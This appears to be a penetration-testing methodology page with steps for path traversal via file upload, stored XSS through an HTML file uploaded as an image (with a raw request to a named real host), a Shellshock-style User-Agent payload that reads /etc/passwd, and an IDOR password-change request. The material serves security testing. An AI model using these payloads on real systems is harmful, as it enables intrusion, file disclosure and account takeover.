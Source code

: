 # Methodolgy: FILE UPLOAD

**> Subject: Path Traversal via File Upload**

> 1. Capture the file upload request
> 2. In the filename parameter, change filename to "../../filename" and 
> forward the request.
> 3. See, if the file is getting stored outside the expected directory, if 'yes', it is an issue.
> 4. Now, attempt to overwrite a system file and check if it is possible to overwrite the system file.

</br>

**> Subject: File Upload XSS in image uploading of App**
> 1. Go to App settings and select a html file with .jpg extension.
> 2. Capture upload request using Burp and change the file extension from .jpg to .html, additionaly change the content type to text/html and it will upload the file.
> 3. Open the link of upload image in new file and XSS will pop up.

```
POST /inventory/app_icon/upload/ HTTP/1.0
Host: app.mopub.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-CSRFToken: YZ8hbuu1vB9p5s1ni2vPZ5kMrhMqeDo5
X-Requested-With: XMLHttpRequest
Referer: https://app.mopub.com/inventory/app/97142808ce5d4ace895480a3ffe7d631/
Content-Length: 389
Content-Type: multipart/form-data; boundary=---------------------------1714461176134095862036612614
Cookie: [Cookie values]
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
-----------------------------1714461176134095862036612614
Content-Disposition: form-data; name="image_upload"; filename="xssfileuploadcopy.html"
Content-Type: text/html
HTML content
-----------------------------1714461176134095862036612614--
```
</br>

# Methodolgy: LFI

**> Subject: Transversal by User Agent**
> 1. Directory Transversal look for <kbd>GET /cgi-bin/status</kbd> 
> 2. Set the User-Agent to
```
User-Agent: {:;}; echo $(</etc/passwd)
```

</br>

# Methodolgy: IDOR

**> Subject: IDOR in the password change functionality**
> 1. Try to change password and capture raw request with Burp Suite

```
POST /api/change_password HTTP/1.1
HOST: redacted.com
Cookie: ci_session= kefrsfdsdfmsdfldgh?h
Accept: application/json

{
    "account":"{username}",
    "password":"{password}"
}
```
> 2. Input any valid user account and input any password


